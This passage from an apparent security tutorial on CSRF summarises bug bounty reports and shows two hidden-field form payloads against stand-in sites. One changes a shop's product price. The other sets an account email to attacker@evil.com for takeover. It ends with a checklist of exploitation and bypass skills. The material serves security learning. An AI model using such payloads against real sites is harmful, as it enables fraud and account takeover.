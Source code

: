 ```html
</html>
```

## 🌍 Real-World Examples

### 1. 💰 High-Value Bug Bounty Reports

#### Facebook CSRF ($5,000)
- **Vulnerability**: CSRF in Facebook Pages management
- **Vector**: Missing CSRF protection on page settings
- **Impact**: Unauthorized changes to business pages
- **Technique**: POST-based CSRF with social engineering
- **Key Learning**: Even major platforms can miss CSRF protection

#### Twitter CSRF ($1,400)
- **Vulnerability**: CSRF in Twitter Ads dashboard
- **Vector**: Missing token validation on campaign creation
- **Impact**: Unauthorized ad campaign creation and billing
- **Technique**: AJAX-based CSRF attack
- **Key Learning**: API endpoints often lack CSRF protection

### 2. 📊 Common CSRF Attack Scenarios

#### E-commerce Price Manipulation
```html
<!-- CSRF to change product prices -->
<form action="https://shop.com/admin/update-price" method="POST">
    <input type="hidden" name="product_id" value="123">
    <input type="hidden" name="price" value="1.00">
</form>
```

#### Social Media Account Takeover
```html
<!-- CSRF to change account email -->
<form action="https://social.com/settings/email" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>
```

## 🎯 Key Takeaways

### ✅ Essential Skills to Master
- [ ] **Detection**: Identify missing CSRF protection in forms and APIs
- [ ] **Exploitation**: Create effective CSRF attack payloads
- [ ] **Bypass**: Circumvent weak CSRF protection mechanisms
- [ ] **Social Engineering**: Craft convincing attack scenarios
- [ ] **Impact Assessment**: Understand business impact of CSRF attacks

### 🚀 Advanced Techniques to Learn
- [ ] **Token analysis** - Identify weak or predictable CSRF tokens
- [ ] **Cross-domain attacks** - Exploit CORS misconfigurations with CSRF
- [ ] **Mobile CSRF** - CSRF attacks against mobile applications
- [ ] **API CSRF** - CSRF attacks against REST and GraphQL APIs
- [ ] **Chaining attacks** - Combine CSRF with XSS or other vulnerabilities

